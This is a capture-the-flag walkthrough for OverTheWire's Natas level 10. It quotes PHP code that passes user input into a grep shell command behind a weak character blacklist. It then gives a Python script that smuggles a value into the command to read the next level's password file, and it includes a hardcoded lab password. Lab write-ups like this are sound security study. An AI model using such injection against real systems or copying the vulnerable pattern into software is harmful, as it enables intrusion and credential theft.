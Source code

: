 
### Natas 10

<img src="img/Pasted image 20240505100145.png" alt="Example Image" width="1080"/>

It look similar to previous level but this time it filters on certain characters

[view_source](http://natas10.natas.labs.overthewire.org/index-source.html)

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

it is same as previous levels , but this time they are filtering certain characters

```php
preg_match('/[;|&]/',$key)
```

`[ ; ] & |`
but in previous level we used `.* #` so we can use same script again this time because these characters not in `preg_match()`

```py
import requests
import re

username = 'natas10'
password = 'D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE'

url = 'http://%s.natas.labs.overthewire.org/'%username
url1 = 'http://%s.natas.labs.overthewire.org/index-source.html'%username

response = requests.Session()

response = response.post(url , data={"needle" : ".* /etc/natas_webpass/natas11 #"} , auth=(username,password))
content = response.text

flag = re.findall("/etc/natas_webpass/natas11:(.*)",content)[0]
print(flag)
```